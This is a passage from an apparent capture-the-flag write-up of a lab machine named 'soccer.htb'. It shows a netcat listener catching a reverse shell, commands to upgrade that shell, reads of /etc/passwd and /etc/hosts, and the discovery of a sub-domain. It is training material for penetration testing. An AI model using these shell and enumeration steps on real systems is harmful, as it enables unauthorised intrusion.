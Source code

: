 Before entering the location it is located, I'll establish a net-cat listener from my machine (port 3389 in my case):

```bash
nc -lnvp 3389
```

Now, click on the "Direct link" option in the Actions section:

Got a reverse shell!


![image](https://user-images.githubusercontent.com/114166939/236664405-96fb54f9-91a9-4c2c-92d7-6483bb872166.png)

I'll upgrade this "sh" shell for better "bash" shell with the commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty raw -echo; fg
stty rows 38 columns 116
```

The current user is "www-data", the default user for web servers.

This user has no special files, permissions, or other interesting directories, so let's investigate the basic files:

```bash
cat /etc/passwd
```

There are 2 users on this machine, "root" and "player".

![image](https://user-images.githubusercontent.com/114166939/236664668-1f43ebbe-99d7-4c6d-b174-629eba1d4acf.png)

In his home directory there is the first flag, user.txt, owned by root and "player" group.

![image](https://user-images.githubusercontent.com/114166939/236664754-260a09cc-ebd8-44d5-beed-ff39bab000b7.png)

"hosts" is another file located in the "/etc" directory. It needs to be configured to add hosts to the DNS map of the machine (by IP and domain).

```bash
cat /etc/hosts
```

![image](https://user-images.githubusercontent.com/114166939/236664998-a5484a15-d71a-4351-b522-665fbc266aee.png)

This is interesting. There is a sub-domain of the HTTP server I didn't see before in this challenge.

Before I'll enter this sub-domain in my browser I also need to configure it in my "/etc/hosts":

```bash
sudo nano /etc/hosts
```

And add "soc-player.soccer.htb" next to "soccer.htb".
